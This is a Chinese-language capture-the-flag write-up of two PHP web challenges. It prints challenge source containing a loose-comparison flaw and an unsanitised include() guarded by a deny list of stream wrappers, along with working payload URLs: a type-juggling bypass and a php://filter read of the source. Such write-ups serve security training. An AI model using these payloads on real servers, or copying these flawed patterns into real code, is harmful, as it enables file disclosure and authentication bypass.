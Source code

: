 提示`Try to find out source file!`，于是扫一下目录发现`index.php.bak`:

```php
<?php
include_once "flag.php";

if(isset($_GET['key'])) {
    $key = $_GET['key'];
    if(!is_numeric($key)) {
        exit("Just num!");
    }
    $key = intval($key);
    $str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
    if($key == $str) {
        echo $flag;
    }
}
else {
    echo "Try to find out source file!";
}
```
`$key == $str`时给`flag`，`key`必须是数字，而`str`是字符串

由于php弱类型，`str`在比较时`"123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3"=123`

所以让`key=123`即可绕过比较

payload:

>  http://106.15.207.47:21001/?key=123



## easy_file_include

- 题目描述：-
- 考察点：php文件包含
- 难度：简单
- 分值：200
- 完成人数：7

首先不会，于是[查资料](https://www.jianshu.com/p/6af8e76d22a5)<-拿这个payload试了下可以用：

> http://106.15.207.47:21002/?file=php://filter/read=convert.base64-encode/resource=./index.php

得到源码：

```php
<meta charset="utf8">
<?php
error_reporting(0);
$file = $_GET["file"];
if(stristr($file,"php://input") || stristr($file,"zip://") || stristr($file,"phar://") || stristr($file,"data:")){
	exit('hacker!');
}
if($file){
	include($file);
}else{
	echo '<a href="?file=flag.php">tips</a>';
}
?>
```
